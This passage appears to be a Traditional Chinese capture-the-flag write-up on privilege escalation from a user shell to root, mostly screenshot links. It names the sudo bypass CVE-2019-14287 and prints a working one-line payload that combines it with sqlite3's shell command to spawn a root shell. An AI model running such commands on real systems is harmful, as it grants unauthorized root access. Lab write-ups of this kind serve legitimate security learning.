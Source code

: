 	- 成功拿到使用者的 Shell!
	
## 提權
- `sudo -l` 觀察
	- ![](https://i.imgur.com/I3mkYEc.png)
	- 發現我們可以用 `sudo` 執行 sqlite3
- 再跑一次 Linpeas
	- ![](https://i.imgur.com/GvgtkCZ.png)
	- ![](https://i.imgur.com/NP57ciG.png)
	- 看起來沒什麼特別，但我們可以注意 sudo 版本 
- `sudo -V`
	- ![](https://i.imgur.com/zGxlAj5.png)
	- 發現是 `1.8.21p2` 版本
		- `CVE-2019-14287`
		- 可以用 `sudo -u#-1 binary` 來繞密碼
- GTFOBins 可以找到 SQLite3 的 sudo 利用方法
	- https://gtfobins.github.io/gtfobins/sqlite3/#sudo
	- 串成完整的 Payload
		- `sudo -u#-1 /usr/bin/sqlite3 /dev/null '.shell /bin/sh'`
	- 執行!!
		- ![](https://i.imgur.com/9p9M2K8.png)
- 取得Root Flag
	- ![](https://i.imgur.com/Q25ze6p.png)

